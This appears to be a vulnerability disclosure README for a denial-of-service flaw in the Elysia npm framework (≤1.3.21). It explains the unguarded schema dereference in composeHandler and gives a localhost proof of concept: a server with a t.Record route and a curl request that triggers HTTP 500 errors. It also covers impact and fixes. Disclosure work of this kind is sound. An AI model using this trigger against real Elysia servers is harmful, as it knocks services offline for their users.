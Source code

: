 # vuln-elysia-1.3.21-ddos

## Summary

Elysia (npm) is vulnerable to **Denial of Service (DoS)** due to unsafe dynamic code generation in the request handler composition.  
Through version **1.3.21 (latest tested)**, a crafted schema property or malformed input can trigger a crash inside `composeHandler` in `src/compose.ts`.  
This causes the server to throw an unhandled exception and return **HTTP 500 Internal Server Error** for valid requests, effectively allowing remote attackers to perform a DoS.

- **Vulnerability Class:** Improper Input Validation → Crash/DoS (CWE-20, CWE-248)  
- **Severity:** Medium/High (CVSS ~7.5)  
- **Exploitability:** Any attacker able to send crafted HTTP requests to an affected server can trigger this vulnerability.  

---

## Details

- **Package:** `elysia` (npm)  
- **Repository:** [github.com/elysiajs/elysia](https://github.com/elysiajs/elysia)  
- **Affected File:** [src/compose.ts](https://github.com/elysiajs/elysia/blob/main/src/compose.ts)  
- **Affected Function(s):** `composeHandler`, `compile`  
- **Affected Versions:** ≤ 1.3.21 (latest tested)  
- **Root Cause:** Dynamic handler generation assumes `schema.$defs[schema.$ref]` exists. Crafted input can bypass assumptions and cause a `TypeError`.

### Relevant code excerpt (compose.ts)
```ts
const properties =
  schema.properties ?? schema.$defs[schema.$ref].properties
```

If `schema.$defs` or `schema.$ref` is undefined due to attacker-controlled schema, the code throws:  
```
TypeError: undefined is not an object (evaluating 'schema.$defs[schema.$ref]')
```

---

## Proof of Concept (PoC)

### Vulnerable Server (poc-elysia-dos.mjs)
```js
import { Elysia, t } from 'elysia'

const app = new Elysia()
  .get('/hello', () => 'Hello World')
  .get('/dos', () => 'SAFE', {
    query: t.Record(t.String(), t.String())
  })
  .listen(3000)

console.log("Server listening on http://localhost:3000")
```

### Run the server
```bash
bun poc-elysia-dos.mjs
```

### Test normal route
```bash
curl http://localhost:3000/hello
# -> Hello World
```

### Trigger DoS
```bash
curl -i http://localhost:3000/dos?x=1
```

**Expected result:**  
The server crashes internally and responds with **500 Internal Server Error**.  
Clients see Bun’s error overlay HTML with stack trace:

```
TypeError: undefined is not an object (evaluating 'schema.$defs[schema.$ref]')
    at composeHandler (.../elysia/src/compose.ts:657:33)
    ...
```
![DoS Attack Demonstration](poc-elysia-dos.gif)
*Figure: Demonstration of the DoS attack against Elysia server*
---

## Attack Vector

- Any attacker who can send crafted requests to endpoints that use `t.Record` or similar schemas can reliably trigger a crash.  
- The server continues running, but valid requests fail until restart → effectively **Denial of Service**.

---

## Impact

- **Availability loss** for services using Elysia.  
- Remote attacker can crash endpoints at will.  
- In production, repeated exploitation can render the service unusable.  

**Vulnerability type:** Denial of Service (DoS) via malformed schema parsing  
**Affected users:** All applications using Elysia with schemas like `t.Record(...)` or other constructs that reach `schema.$defs`.

---

## Suggested Fix

- Add guards before dereferencing `schema.$defs[schema.$ref]`.  
- Reject malformed schema definitions early.  
- Add test cases for schema edge cases (e.g., empty `$ref`, missing `$defs`).

---

## Disclosure
- **Status:** Under responsible disclosure  
- **Disclosure Date:** 04 September 2025  
- **Reporter:** Manopakorn Kooharueangrong (Whyshealwaysbrokeme)
